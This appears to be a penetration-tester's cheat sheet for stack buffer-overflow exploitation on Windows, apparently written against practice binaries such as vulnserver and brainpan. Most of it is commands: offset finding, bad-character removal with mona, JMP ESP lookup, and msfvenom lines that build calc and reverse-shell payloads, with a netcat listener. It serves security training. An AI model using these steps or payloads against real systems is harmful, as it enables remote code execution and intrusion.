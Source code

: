 ### Buffer Overflows


#### The Process:
- 1 Spiking [finds the vulnerable command]
- 2 Fuzzing [attacks the specific command]
- 3 Finding the Offset [pattern_create.rb -l 9001]
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access


#### The Check list:

```
msf-pattern_create -l <APPEND_SIZE>
```
* Insert this unique string into your PoC script and run, copy the EIP number
```
msf-pattern_offset -l <APPEND_SIZE> -q <EIP>
```
* Take the offset figure and append to your buffer:
```
"A" * <OFFSET_FIGURE> 
```

* Include  four bytes per below to confirm you have control of the ESP:
```
"B" * 4
```
* Add trailing padding to the end of your buffer to uniform its size (Assuming a Python PoC): 
```
buffer += "D" * (Initial_Fuzz_Value - len(buffer))
```
* Append bad characters

* Right click the ESP in the Registers Tab and click "Follow in dump". Find and eliminate all the bad characters in your hex dump

* Run: "!mona modules"* in Immunity Debugger to find a suitable JMP ESP

* Run: "!mona find -s "\xFF\xE4" -m <JMP_ESP's File/DLL name> (Ensure the selected file does not contain any bad characters in its address) 

* Add this JMP ESP to buffer. Remember little endian if the target is x86 architecture.

* Append NOP_SLEDs to the buffer:
```
buffer += "\x90" * 25
```
* Generate and append calc.exe shellcode to the buffer:
```
msfvenom -p windows/exec -b 'BADCHARS' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```
* Generate and append a reverse shell to the buffer:
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=1234 EXITFUNC=thread -f python -b "\xXX\xXX<BARCHARS>" 
```
* If this stage-less payload does not work, consider a staged payload

* Your final buffer should be ordered: 
```
OFFSET + JMP_ESP + NOP_SLEDs + Shellcode + Trailing Padding
```

* Run:
```
nc -lvp 9001
```
* execute payload


-----

# BOF

- 1 Connect find commands
```bash
nc -nv $IP $PORT
```

- 2 [Spike](/1_method/3_Exploitation/1_Buffer_Overflows/2_STATS.spike)
check if vulnerable

- 3 [Fuzzing](/1_method/3_Exploitation/1_Buffer_Overflows/3_fuzzing_simple.py)
```bash
msf-pattern_create -l <length>
```
Record value on EIP, select ESP and click "Follow in Dump"  
```bash
msf-pattern_offset.rb -q <value> -l <length>  
```

- 4 [Find BadChars](https://github.com/cytopia/badchars)
- [badchars](/1_method/3_Exploitation/1_Buffer_Overflows/99_badchars.md)
- [badchars.py](/1_method/3_Exploitation/1_Buffer_Overflows/4_badchars.py)

Check bad characters after EIP. common bad characters are 0x00, 0x0A. 
Follow dump in ESP to check are there something missing after that.



```bash
ESP > Follow in dump
```


	- Remove badchars as they occur to find all badchars to exclude
	- "Step by step" - careful steps, shellcode will not work with badchars
		- better to be safe than sorry, remove chars if unsure
	- Step back and check if not gaining shell

> **NOTES: Using Mona for badchar generation**

```powershell
!mona config -set workingfolder C:\monastuff
!mona bytearray -cpb '"\x00"
!mona compare -f C:\monastuff\bytearray.bin -a [ESP value]
```

- 5 Use !mona to find the offset after the overflow

Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode


[mona modules](https://github.com/corelan/mona)
```powershell
C:\Program Files(x86)\Immunity Inc\Immunity Debugger\PyCommands
```
Load modules [find FALSE FALSE FALSE FALSE in security for dll]
```bash
!mona modules
```

```bash
msf-masm_shell
nasm > JMP ESP
00000000  FFE4              jmp esp
```
```
!mona find -s "\xFF\xE4" -m "essfunc.dll"
!mona jmp -r ESP -m "essfunc.dll"
```
note return addresses (which will then hold the shellcode) to push into EIP 
```
0x625011af
0x625011bb
0x625011c7
```
> Other

```bash

msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
JMP ESP = FFE4

# !mona jmp -r esp -cpb "\x00\x0A" << bad character
# !mona modules
# !mona find -s "\xff\xe4" -m brainpan.exe
```
check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
e.g. 0x311712f3 >> "\xf3\x12\x17\x31"
Run again to check is the breakpoint triggered

shellcode / buffer in code is now:

```
"A" * [number of characters to EIP overwrite] + [JMP ESP location to push into EIP]
```

- 6 Follow address in Immunity debugger to test we are hitting the correct point
[offset.py](1_method/3_Exploitation/1_Buffer_Overflows/6_JMP_point.py)

```
->] 0x625011af
F2 # sets break point
```

- 7 Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.101.13 LPORT=9001 EXITFUNC=thread -f c -a x86 -b "\x00" -e x86/shikata_ga_nai
```
> **NOTES: Running out of shell code space?**

Use the front of payload instead

1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
```
msf-nasm_shell JMP 
msf-nasm_shell EAX
msf-nasm_shell EBX
msf-nasm_shell ECX
msf-nasm_shell EDX
```
3. Append the address as shell code.
4. Add payload to the front







